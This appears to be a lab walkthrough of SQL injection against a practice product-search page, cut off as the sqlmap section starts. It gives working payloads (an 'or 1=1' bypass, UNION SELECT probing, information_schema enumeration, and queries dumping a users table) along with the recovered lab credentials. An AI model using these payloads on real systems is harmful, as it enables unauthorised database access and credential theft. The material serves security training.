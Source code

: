 
## **Overview**

We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***
## **Manually**


We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us a `_users` and `_products` table 
 
![](https://i.imgur.com/mxIbLRO.png)


We can then attempt to dump the content of this table, After much enumeration, i found out the **injection0x03_users** has only two columns which is `username` and password, Using the following queries we can dump them out

```sql
senpai' union select null,null,null,username from injection0x03_users#
```


![](https://i.imgur.com/BKUKrVt.png)



```
senpai' union select null,null,null,password from injection0x03_users#
```



![](https://i.imgur.com/SR50Gtn.png)


So definitely, our Username and password is `takeshi:### onigirigadaisuki`


## **SQLMAP**


As usual interceot your request in burp 